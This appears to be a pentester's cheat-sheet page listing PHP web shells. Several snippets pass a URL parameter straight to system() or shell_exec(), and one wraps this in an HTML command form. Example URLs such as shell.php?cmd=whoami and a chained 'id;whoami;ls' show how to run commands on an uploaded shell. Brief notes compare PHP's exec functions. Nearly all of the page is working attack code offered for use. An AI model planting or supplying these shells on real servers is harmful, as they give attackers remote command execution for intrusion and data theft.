
Garr uses: `<?php system($_GET['cmd']);?>`

```php
<?php
    echo system($_GET["cmd"]);
?>
```

```php
<?php
    echo system($_REQUEST["cmd"]);
?>
```

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

```php
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
```

Use with `shell.php?cmd=whoami`

`$_POST` can catch the data which is sent using POST method
`$_GET` can catch the data which is sent using GET method
`$_REQUEST` can catch the data which is sent using **both POST & GET methods**

<font color=orange>echo var_dump($a) might be better than echo - try this!</font>

**exec()**: returns the last line of output from the command and flushes nothing.
**shell_exec()**: returns the entire output from the command and flushes nothing.
**system()**: returns the last line of output from the command and tries to flush the output buffer after each line of the output as it goes.
**passthru()**: returns nothing and passes the resulting output without interference to the browser, especially useful when the output is in binary format.

maybe use (`2>&1`) too

Use by entering a URL and "view source" for prettier output
http://test.com/uploaded-files/webshell.php?cmd=id;whoami;ls

This also uses the fact that ; at a shell prompt makes it possible to run several commands after each other

#### A pretty one

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```